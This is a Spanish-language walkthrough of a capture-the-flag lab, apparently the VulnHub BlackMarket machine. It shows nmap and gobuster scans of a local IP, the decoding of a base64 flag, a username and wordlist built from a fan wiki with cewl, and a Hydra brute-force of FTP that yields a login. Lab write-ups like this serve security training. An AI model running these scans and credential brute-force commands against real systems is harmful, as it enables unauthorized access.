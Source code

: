 ```bash
$nmap -p21,22,80,110,143,993,995 -sCV 192.168.0.108 -oN targeted
```

- Escaneo de directorios con gobuster:

```bash
$gobuster dir -u 192.168.0.108 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```


# Análisis de página web:

- Analizamos el contenido de la página principal y nos topamos con un login, revisamos el código fuente y encontramos la flag 1 con un string en base64, lo decodeamos y vemos el siguiente mensaje:

```bash
$echo -n "Q0lBIC0gT3BlcmF0aW9uIFRyZWFkc3RvbmU=" | base64 -d; echo
```

```
CIA - Operation Treadstone
```


# Bruteforce puerto 21 (FTP) con Hydra:

- Buscamos en google "Operation Treadstone y encontramos un foro interesante https://bourne.fandom.com/wiki/Operation_Treadstone en el que podemos ver posibles nombres de usuario del sistema:

```
richard
ward
alexander
albert 
neil
nicky
daniel
```


- Guardamos los posibles usuarios en un archivo de texto "users.txt" y creamos un diccionario personalizado que contemple todas las palabras de dicho foro en un archivo de texto "passwords.txt"

```bash
$cewl https://bourne.fandom.com/wiki/Operation_Treadstone -w passwords.txt -d 0
```


- Hacemos un ataque de fuerza bruta con la información recolectada hasta ahora para ganar acceso por FTP:

```bash
$hydra -L /home/dante/Vulnhub/BlackMarket/content/users.txt -P /home/dante/Vulnhub/BlackMarket/content/passwords.txt ftp://192.168.0.108
```

```
[21][ftp] host: 192.168.0.108   login: nicky   password: CIA
```

